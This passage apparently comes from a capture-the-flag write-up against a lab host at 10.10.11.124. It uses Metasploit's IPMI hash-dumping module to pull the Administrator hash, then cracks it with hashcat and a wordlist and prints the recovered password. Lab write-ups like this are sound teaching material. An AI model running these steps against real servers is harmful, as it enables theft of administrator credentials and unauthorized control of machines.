 ```bash
50                   true    false      false      Unknown (0x00)
51                   true    false      false      Unknown (0x00)
52                   true    false      false      Unknown (0x00)
53                   true    false      false      Unknown (0x00)
54                   true    false      false      Unknown (0x00)
55                   true    false      false      Unknown (0x00)
56                   true    false      false      Unknown (0x00)
57                   true    false      false      Unknown (0x00)
58                   true    false      false      Unknown (0x00)
59                   true    false      false      Unknown (0x00)
60                   true    false      false      Unknown (0x00)
61                   true    false      false      Unknown (0x00)
62                   true    false      false      Unknown (0x00)
63                   true    false      false      Unknown (0x00)
Error: Unable to establish IPMI v2 / RMCP+ session
Error: Unable to establish IPMI v2 / RMCP+ session
Error: Unable to establish IPMI v2 / RMCP+ session
```

----------

<br>

### Step 2

With a known IPMI user we can extract it's password hash using `scanner/ipmi/ipmi_dumphashes`, change the Administrator password using `ipmitool`, or even create a new user. Because of OPSEC reasons we chose to go with the first.
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.10.11.124
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:25c57b7b8405000008904066caa92e976c68e804989073044e82977617542af3e0def24a61f3bb61a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:9bcd1814a60990cec7b9579c2236c1a55465af4a
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Crack the hash with hashcat:
```powershell
PS C:\tools\hashcat-6.2.4> .\hashcat.exe -a0 -m7300 .\administrator-ipmi.txt .\rockyou.txt
[... snip ...]

25c57b7b8405000008904066caa92e976c68e804989073044e82977617542af3e0def24a61f3bb61a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:9bcd1814a60990cec7b9579c2236c1a55465af4a:ilovepumkinpie1

Session..........: hashcat
Status...........: Cracked
```

**Credentials found! `Administrator:ilovepumkinpie1`**
